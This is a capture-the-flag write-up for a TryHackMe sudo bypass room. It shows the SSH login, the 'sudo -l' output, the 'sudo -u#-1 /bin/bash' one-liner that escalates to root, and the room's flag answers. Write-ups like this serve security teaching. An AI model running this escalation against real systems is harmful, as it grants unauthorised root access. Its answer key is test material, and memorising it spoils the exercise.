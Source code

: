 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## Task 1: Deploy!
### Deployed!
### No answer needed

&nbsp;

## Task 2: Security Bypass
### What command are you allowed to run with sudo?

Let's first connect to the machine using `ssh` and the following credentials:

```
┌──(kunal㉿kali)-[~]
└─$ ssh tryhackme@10.10.150.83 -p 2222
The authenticity of host '[10.10.150.83]:2222 ([10.10.150.83]:2222)' can't be established.
ED25519 key fingerprint is SHA256:4bgDOPxI7PFcv5CMfQYEkO7uBqKjLKhd7zZwmE8uwbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.150.83]:2222' (ED25519) to the list of known hosts.
tryhackme@10.10.150.83's password: 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ 
```

Now, we can list out the command we are allowed to run as `sudo`.

```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
```
### Answer
```
/bin/bash
```

&nbsp;

### What is the flag in /root/root.txt?
We can find the exploit on the following page.

![1](https://github.com/Knign/Write-ups/assets/110326359/b3e3ece3-ea74-42c3-aefa-800116a4748f)

```
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# 
```

We can now read the flag in `/root/root.txt`.
```
root@sudo-privesc:~# cat /root/root.txt 
THM{l33t_s3cur1ty_bypass}
```
### Answer
```
THM{l33t_s3cur1ty_bypass}
```
